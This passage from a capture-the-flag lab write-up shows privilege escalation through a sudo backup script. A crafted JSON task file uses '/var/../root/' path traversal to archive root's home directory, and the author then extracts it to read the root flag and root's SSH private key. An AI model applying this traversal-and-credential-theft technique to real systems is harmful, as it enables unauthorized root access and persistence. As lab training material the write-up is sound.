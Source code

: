 The key insight: start with an allowed path, then traverse **before** the security check evaluates the final path:

```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/../root/"
  ]
}
```

### Executing the Exploit

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh taskss.json
```

**Output:**
```text
2025/03/29 08:36:53 🍀 backy 1.2
2025/03/29 08:36:53 📋 Working with taskss.json ...
2025/03/29 08:36:53 💤 Nothing to sync
2025/03/29 08:36:53 📤 Archiving: [/var/../root]
2025/03/29 08:36:53 📥 To: /home/martin ...
2025/03/29 08:36:53 📦
tar: Removing leading `/var/../' from member names
/var/../root/
/var/../root/.ssh/
/var/../root/.ssh/id_rsa
/var/../root/.ssh/authorized_keys
/var/../root/root.txt
[... truncated ...]
```

Success! The entire root directory is now archived in `/home/martin/`.

### Extracting Root Credentials

```bash
martin@code:~$ tar -xjf code_var_.._root_2025_March.tar.bz2
martin@code:~$ cd root/
martin@code:~/root$ cat root.txt
9234e99aacc8f86f70344547d6d1efab
```

> **Root Flag Captured!** 🚩
{: .prompt-tip }

### Root SSH Access

We can also extract root's SSH private key for persistent access:

```bash
martin@code:~/root$ cat .ssh/id_rsa
```

